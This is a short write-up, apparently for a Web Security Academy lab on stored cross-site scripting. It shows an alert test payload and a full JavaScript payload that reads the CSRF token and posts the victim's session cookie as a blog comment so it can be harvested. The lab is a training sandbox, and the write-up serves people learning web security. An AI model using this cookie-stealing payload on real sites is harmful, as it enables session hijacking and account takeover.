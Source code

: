 # Exploiting Cross-Site Scripting to steal Cookies

## Description
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. 

 To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the cookie. 

## Solve

- For this challenge, I first verified the XSS usring the payload `<script>alert('XSS')</script>` in the comments section. Once confirmed, I set on to construct the main script that would give me the victim user's session cookie.
- Final Script:

```javascript
<script>
    window.addEventListener('DOMContentLoaded', function(){

    var token = document.getElementsByName('csrf')[0].value;
    var data = new FormData();

    data.append('csrf', token);
    data.append('postId', 8);
    data.append('comment', document.cookie);
    data.append('name', 'victim');
    data.append('email', 'hi@mail.com');
    data.append('website', 'http://www.hello.com');

    fetch('/post/comment', {
        method: 'POST',
        mode: 'no-cors',
        body: data
    });
});
</script>
```

- In the above script, we can just change the postId as required and use it to get the session cookie through the comment section.

## References
1. [Exploiting Cross-site Scripting to Steal Cookies Without Collaborator](https://www.youtube.com/watch?v=N_87S9XVy0w&list=PLWvfB8dRFqbZG5cw2OrnEmzSzorxRuxFV&index=22)
2. [Exploiting cross-site scripting to steal cookies without burpsuite collaborator - Lab#22 ](https://www.youtube.com/watch?v=KGRwfb60Rdk)